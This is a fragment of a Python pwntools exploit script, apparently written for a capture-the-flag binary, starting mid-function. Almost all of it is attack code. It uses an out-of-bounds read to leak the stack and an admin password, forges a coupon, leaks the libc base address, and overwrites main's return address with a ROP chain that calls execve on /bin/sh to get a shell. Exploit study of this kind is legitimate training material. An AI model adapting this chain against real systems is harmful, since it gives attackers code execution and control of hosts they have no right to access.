 ``` python
    else:
        s = process(BINARY, env={"LD_PRELOAD" : LIBRARY})
        if debug:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)
    s.recvuntil(b"Choice : \r\n").decode()
    
    # memory leak using OOB
    ml = memory_leak(s)
    stack = u64(ml[0:8])
    admin_pw = ml[0x10:0x18]
    log.info(f"stack : {hex(stack)}")
    log.info(f"admin pw : {admin_pw.decode()}")

    # join fake "Welcome!"
    r = join(s, b"Welcome!", b"Welcome@", b"Welcome#", 0x10)
    coupon = r.split(b"issued : ")[1].split(b"\r\n")[0]
    log.info(f"coupon : {coupon}")
    login(s, b"Welcome!", ml + b"\x00\x00")

    # counterfeit coupon
    if not apply_coupon_quadra(s, coupon):
        log.failure(f"bad coupon :(")
        exit()

    # win game to be regular member
    if b"regular member" not in win_game(s):
        log.failure(f"game lost :(")
        exit()
    log.success(f"game win!")
    s.sendlinethen(b"Choice : \r\n", b'y')

    # libc leak by increasing login_success(email_size)
    logout(s)
    for _ in range(0xa0):
        login(s, b"Welcome!", b"Welcome@")
        logout(s)
    login(s, b"Welcome!", ml + b"\x00\x00")
    r = print_info(s)
    libc = u64(r[0xcc:0xd4])
    lib.address = libc - 0x29d90
    log.info(f"libc : {hex(lib.address)}")

    # change admin->pw to point return address of main
    ret = stack + 0xd98
    change_pw(s, p64(ret) + p64(0x8))
    
    # overwrite return address
    logout(s)
    pop_rdi_ret = lib.address + 0x2a3e5
    pop_rsi_ret = lib.address + 0x2be51
    pop_rdx_rbx_ret = lib.address + 0x904a9
    payload = p64(pop_rdi_ret)
    payload += p64(next(lib.search(b"/bin/sh")))
    payload += p64(pop_rsi_ret)
    payload += p64(0)
    payload += p64(pop_rdx_rbx_ret)
    payload += p64(0)
    payload += p64(0)
    payload += p64(lib.symbols["execve"])
    login(s, b"admin", p64(libc))
    change_pw(s, payload)
```